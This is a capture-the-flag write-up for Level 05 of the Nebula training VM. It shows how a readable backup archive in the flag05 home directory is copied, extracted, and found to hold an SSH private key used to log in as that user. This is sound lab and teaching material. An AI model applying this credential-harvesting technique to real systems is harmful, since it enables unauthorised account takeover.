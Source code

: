 # Level 05 - Nebula

```
Check the flag05 home directory. You are looking for weak directory permissions

To do this level, log in as the level05 account with the password level05. Files for this level can be found in /home/flag05.
```

```bash
level05@nebula:/home/flag05$ ls -la
total 5
drwxr-x--- 4 flag05 level05   93 2012-08-18 06:56 .
drwxr-xr-x 1 root   root      60 2012-08-27 07:18 ..
drwxr-xr-x 2 flag05 flag05    42 2011-11-20 20:13 .backup
-rw-r--r-- 1 flag05 flag05   220 2011-05-18 02:54 .bash_logout
-rw-r--r-- 1 flag05 flag05  3353 2011-05-18 02:54 .bashrc
-rw-r--r-- 1 flag05 flag05   675 2011-05-18 02:54 .profile
drwx------ 2 flag05 flag05    70 2011-11-20 20:13 .ssh

```

In /home/flag05, we find .ssh and .backup directories. The ssh directory sticks out immediately because it could provide us with the .id_rsa and .authorized_keys files we would need to SSH into the flag05 user. But since the ["read" permission](https://en.wikipedia.org/wiki/File-system_permissions#Traditional_Unix_permissions) isn't set for others on the directory, we can't actually get these files. We can read the files in the .backup directory though, and there's a compressed .tgz file in there.

```bash
level05@nebula:/home/flag05/.backup$ ls -la
total 2
drwxr-xr-x 2 flag05 flag05    42 2011-11-20 20:13 .
drwxr-x--- 4 flag05 level05   93 2012-08-18 06:56 ..
-rw-rw-r-- 1 flag05 flag05  1826 2011-11-20 20:13 backup-19072011.tgz
level05@nebula:/home/flag05/.backup$ 
```

We need to move this file somewhere we can decompress it, and then see whats inside.

```bash
level05@nebula:/home/flag05/.backup$ cp backup-19072011.tgz /tmp/backup.tgz
level05@nebula:/home/flag05/.backup$ cd /tmp
level05@nebula:/tmp$ tar zxvf backup.tgz
.ssh/
.ssh/id_rsa.pub
.ssh/id_rsa
.ssh/authorized_keys
```

Now we can just use the id_rsa to login to the flag05 account.

![](../../assets/nebula/level05/flag.png)